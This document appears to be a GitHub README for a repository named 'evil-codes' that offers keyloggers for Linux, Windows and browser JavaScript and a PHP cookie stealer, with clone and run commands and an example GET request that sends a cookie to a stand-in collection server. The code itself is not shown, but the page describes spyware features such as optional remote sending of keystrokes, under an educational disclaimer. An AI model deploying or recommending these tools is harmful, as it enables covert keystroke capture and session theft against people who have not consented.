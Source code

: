 <h1 align='center'>Disclaimer</h1>
These tools are intended for educational and ethical penetration testing only. Unauthorized use of these tools to monitor systems without permission is illegal and unethical.
<li><b>Installation:</b>
<pre><code>git clone https://github.com/Kode-n-Rolla/evil-codes.git
cd evil-codes</code></pre>
<h2 align='center'>Keylogges</h2>
<p>The keyloggers are designed to capture keystrokes and log activity on different operating systems. Please note that these are the first versions and will be refined and enhanced over time. These keyloggers designed for educational and ethical purposes.
<ol>
  <h3><li>Linux Keylogger</h3>
    <ul>
      <li><b>Description:</b> This keylogger is specifically designed for Linux environments. It listens to keyboard events through the /dev/input devices and logs keystrokes to a file. The keylogger can also detect active processes using xdotool if available
      <li><b>Features:</b>
        <ul>
          <li>Captures and logs keystrokes directly from input devices
          <li>Supports the mapping of key codes to human-readable characters
          <li>Writes logs to a file for easy review and analysis
          <li>Requires root privileges for access to input devices
        </ul>
      <li><b>Run</b> the keylogger with root permissions:
            <pre><code>sudo python linux_keylogger.py</code></pre>
    </ul>
    <h3><li>Windows Keylogger</h3>
      <ul>
        <li><b>Description:</b> The Windows version of the keylogger leverages the Windows API and <code>psutil</code> library to capture active window information, process details, and keystrokes. It logs all activities into a file for analysis
        <li><b>Features:</b>
          <ul>
            <li>Captures and logs keystrokes using the Windows API
            <li>Retrieves active window and process information for detailed logging
            <li>Supports keyboard layout detection for accurate log representation
            <li>Outputs logs to a file with detailed information about the active application and layout
          </ul>
              <li><b>Run</b> the keylogger:
                <pre><code>python windows_keylogger.py</code></pre>
      </ul>
      <h3><li>Java Script Keylogger</h3>
            <ul>
        <li><b>Description:</b> It logs keypress events, including standard characters, special function keys (e.g., Esc, Enter, Backspace), and modifier keys (Shift, Ctrl, Alt). The keylogger also captures key combinations to provide more comprehensive data. The                   project showcases JavaScript's event handling capabilities, which could be useful in understanding how keylogging works
        <li><b>Features:</b>
          <ul>
            <li>Logs Regular Keys: Captures standard keyboard characters, including letters, numbers, and symbols
            <li>Detects Modifier Keys: Recognizes Shift, Ctrl, Alt, and Meta (Windows/Command) keys and includes them in the log
            <li>Records Special Function Keys: Handles function keys (Esc, Backspace, Delete, Enter, Caps Lock, Tab, and arrow keys)
            <li>Key Combination Logging: Logs combinations like Ctrl + C, Shift + A, or Alt + Enter
            <li>Optional Server Communication: Allows sending logged key data to a server endpoint (e.g., for remote analysis)
          </ul>
              <li><b>How to use:</b>
                <ul><li>Place the JavaScript file containing the keylogger code into an HTML file, or link it via a &lt;script> tag</ul>
</ol>
<h2 align='center'>Cookie Stealer (.php)</h2>
              <li><b>Description:</b> This project is a simple PHP script that captures and logs cookies sent via URL parameters. The script is intended for educational and ethical purposes, such as security research and demonstration of cookie handling in web                           applications. It logs any <code>cookie</code> parameter passed through a GET request to a local file named <code>stolen_cookies.txt</code> in the same directory. Each log entry is timestamped for easy reference.
              <li><b>Warning:</b> This script should only be used in controlled environments and with permission. Unauthorized use of this tool to capture cookies is illegal and unethical.
              <li><b>How It Works:</b>
                <ol>
                  <li>The script checks for a URL parameter named <code>cookie</code>
                  <li>If <code>cookie</code> is present, its value is saved to a file <code>stolen_cookies.txt</code> along with the current timestamp
                  <li>If the parameter is missing, the script simply returns a message saying "No cookie"
                </ol>
              <li><b>Example:</b>
                To log a cookie with a value of example_cookie_value, make a GET request like this:
                <pre><code>http://your-server.com/cookie-stealer.php?cookie=example_cookie_value</code></pre>
<h2 align='center'>Future Improvements:</h2>
<ul>
  <li><b>Security Enhancements:</b> Aim to make the keyloggers more robust and add encryption to protect the captured logs
  <li><b>Additional Platforms:</b> Support for macOS and possible improvements to cross-platform functionality
  <li><b>Process Tracking:</b> Improvements in tracking processes and window changes in Linux, similar to the Windows version
  <li><b>Customization:</b> Providing more customizable settings, such as changing the log file location, log formatting, and more
</ul>
